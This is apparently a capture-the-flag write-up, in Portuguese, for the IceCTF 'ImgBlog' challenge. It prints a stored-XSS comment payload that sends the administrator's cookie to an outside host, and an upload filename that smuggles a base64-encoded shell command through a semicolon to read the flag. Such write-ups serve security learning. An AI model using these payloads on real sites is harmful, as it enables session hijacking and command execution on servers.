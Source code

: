 # ImgBlog

O desafio apresentava um blog simples, onde era possivel ler os comentarios, se cadastrar e postar comentarios nos posts, em cada comentário havia um botão para reportar caso o comentario fosse ofensivo.

Nos comentários era possivel o ataque XSS, conseguimos roubar o cookie do administrador, clicando em report depois de postar o seguinte comentario:

```
document.write('<img src="https://318.server/givme?cookie=' + document.cookie + '" />')
```

Feito isso, assumindo o login de admin, era apresentado uma opção a mais no menu de um form de upload, logo na primeira tentativa, era possivel notar que o sistema utilizava o binário file, com isso conseguimos executar comandos, utilizando o char ''';'''

```
'lol.jpg;echo Y2F0IC9mbGFnLnR4dAo=|base64 -d'
```

E então, na mensagem de erro, a flag era exibida

```
File is not an image: /uploads/loljpg: cannot open `/uploads/loljpg' (No such file or directory) IceCTF{why_would_you_use_shell_commands_in_your_web_app_plz_stop}
```
